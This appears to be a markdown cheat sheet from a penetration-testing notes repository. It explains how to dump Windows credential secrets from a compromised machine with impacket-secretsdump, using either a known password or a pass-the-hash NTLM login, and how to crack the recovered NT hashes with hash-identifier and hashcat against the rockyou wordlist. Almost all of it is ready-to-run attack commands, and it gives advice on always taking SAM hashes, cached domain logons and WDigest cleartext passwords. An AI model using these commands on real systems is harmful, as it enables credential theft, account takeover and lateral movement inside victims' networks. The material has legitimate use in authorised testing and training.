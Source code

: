 # Dumping Hashes
Whenever an account is compromised, dumping the secrets of the account is always a good idea.

How to dump information from a machine you possess the username:password:
```bash
impacket-secretsdump [DOMAIN]/[USERNAME]:'[PASSWORD]'@[IP_ADDRESS]
```
How to dump information from a machine you possess the username and hash for:
```bash
impacket-secretsdump [USERNAME]:@[IP_ADDRESS] -hashes [FULL NTLM HASH]
```
Note: NTLM hashes have a ":" that divides them between LM and NT hashes.

ALWAYS grab SAM hashes of all accounts (except Guest, WDAGUtility, They don't matter).

Worth grabbing cached domain logon info as well.

Cleartext passwords showing up are possible. Especially on older machines that use WDigest (which stores the password in plaintext).
# Cracking hashes
The only portion of NTLM hashes that need to be cracked is the NT portion of the hash.
1. Remember, the hash is structured like this: LM:NT
Store the NT hash in a txt file. e.g. ntlm.txt
2. Use hash identifier to check what should be used for hashcat:
```bash
hash-identifier
```
Enter hash when prompted.
3. Search hashcat for what options to use (optional):
```bash
hashcat --help | grep "NTLM"
```
4. Use hashcat to crack the hash:
```bash
hashcat -m 1000 ntlm.txt /usr/share/wordlists/rockyou.txt 
```
* Add -O if on bare-metal
* Add -r OneRuleToRuleThemAll ruleset to include p@$$w0rd mutations.
